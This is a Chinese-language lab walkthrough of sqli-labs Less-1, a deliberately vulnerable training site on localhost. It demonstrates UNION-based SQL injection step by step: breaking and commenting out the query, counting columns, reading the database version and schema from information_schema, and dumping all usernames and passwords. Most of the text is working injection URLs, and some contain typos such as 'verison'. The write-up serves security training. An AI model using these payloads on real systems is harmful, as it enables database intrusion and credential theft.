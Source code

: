 ```yaml
---
title: sql-labs Less-1
date: 2017-9-21
tags: [sqli-labs]
---
```


#### sql 字符
字符串运算符 ```'or```, 

多行注释 ```/*...*/```,   

加号,连接（在URL中等同于空格） ```+```,

单行注释 ```#```,

或 ```--```

#### 注入
![Alt text](http://image-1252432001.file.myqcloud.com/sqli1.png)

输入id值为```1'```来破坏查询。

```sql
http://localhost/sqli-labs/Less-1/?id=1'
```
得到下列结果

![Alt text](http://image-1252432001.file.myqcloud.com/sqli2.png)

可以猜测后端应该是

```sql
SELECT * from table_name WHERE id='1';
```
or
```sql
SELECT * from table_name WHERE id=('1');
```

or

```sql
SELECT * from table_name WHERE id="1";
```

来猜一下:

```sql
http://localhost/sqli-labs/Less-1/?id=1\
```

利用转义字符来验证猜测

![Alttext](http://image-1252432001.file.myqcloud.com/sqli3.png)

结果中有```''1\'```,那么后端的查询应该是

```sql
SELECT * from table_name WHERE id='1';
```

那么如果输入```1'```完整的查询应该是

```sql
SELECT * from table_name WHERE id='1'';
```

所以这条查询有错误。

那么怎么不让它报错呢？

利用sql字符构建

```sql
http://localhost/sqli-labs/Less-1/?id=1'--+
```

得到下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli4.png)

其实这里的```--+```相当于注释，加号连接（在URL中等同于空格）```+```，

后端语句为

```sql
SELECT * from table_name WHERE id='1'--+';
```

等效于

```sql
SELECT * from table_name WHERE id='1';
```

所以登录成功。


----------


**现在我们既可以破坏查询，又可以修复它的语法错误了，接下来我们要努力在引号和 --+ 之间添加查询来获取数据库中的信息。**

为了使用```union```**（UNION操作符用于合并两个或多个SELECT语句的结果集。但是有一个前提条件，那就是UNION操作符两边的列数必须相同）**,我需要知道表的列数。

使用```order by```，来获取列数。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 1 --+
```

显示正确

![Alttext](http://image-1252432001.file.myqcloud.com/sqli5.png)

当构建

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 4 --+
```

出现了下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli6.png)

可以猜到这个表有3列，然后就可以使用```union```了。


----------

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli7.png)

显示正常

为了将第二个查询的结果显示出来，需要将第一条查询变成空，可以将```id```的值设为负值或者大于14.

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli8.png)


图示显示``` name: 2 ```, ``` password: 3 ```，可以构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli9.png)

显示版本号。

下面开始爆出数据库名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,database(),verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli10.png)

得到数据库名为```security```.

接下来可以利用 information_schema这个数据库，爆出表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli11.png)

利用```group_concat()``` 来查取所有的表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli12.png)

爆出全部表名。

接下来爆出```users```表的列名，也是利用information_schema这个数据库。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli13.png)

那么可以得到users表中的所以登录名和密码

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli14.png)

**这么就把库给脱了！**
